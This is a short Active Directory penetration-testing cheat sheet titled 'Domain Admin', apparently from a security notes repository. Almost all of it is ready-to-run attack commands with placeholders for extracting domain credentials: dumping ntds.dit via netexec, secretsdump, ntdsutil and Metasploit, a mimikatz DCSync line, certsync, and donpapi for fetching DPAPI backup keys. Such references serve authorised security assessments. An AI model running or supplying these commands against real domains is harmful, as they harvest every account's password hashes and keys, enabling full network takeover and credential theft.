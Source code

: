 ```yaml
---
title: "Domain Admin"
description: "Domain Admin techniques and commands for Active Directory security assessment."
---
```

## Dump ntds.dit >>> Lateral move || Crack hash
- `nxc smb <dcip> -u <user> -p <password> -d <domain> --ntds`
- `secretsdump.py '<domain>/<user>:<pass>'@<ip>`
- `ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q`
  - `secretsdump.py -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract`
- `msf> windows/gather/credentials/domain_hashdump`
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `certsync -u <user> -p '<password>' -d <domain> -dc-ip <dc_ip> -ns <name_server>`

## Grab backup Keys >>> Credentials
- `donpapi collect - H ':<hash>' <domain>/<user>@<ip_range> -t ALL --fetch-pvk`